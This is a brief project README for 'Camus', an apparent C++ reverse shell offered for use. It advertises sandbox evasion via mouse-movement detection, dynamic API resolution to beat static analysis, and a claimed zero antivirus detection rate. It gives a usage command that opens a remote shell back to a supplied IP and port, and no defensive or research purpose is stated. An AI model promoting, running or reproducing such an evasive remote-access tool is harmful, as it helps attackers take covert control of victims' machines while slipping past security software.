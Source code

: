 # Camus

<div style="text-align: center; ">
  <img src="Image/1.jpg" width="200">
</div>

Reverse_Shell Implemented in C++ with the ability to bypass sandboxes through detecting mouse movement

Features:
- Reverse_shell implemented through c++
- Bypass sandbox through identifying mouse movement
- Dynamic API resolution for bypassing static analysis
- Zero detection rate (at the moment of speaking)

How to Use:
1. Run the program alongside with the IP address and port as inputs
   for example: Camus.exe 192.168.1.1 555


 <img src="Image/Antiscan.png" width="500">
 <img src="Image/2.png" width="500">
 <img src="Image/3.png" width="500">
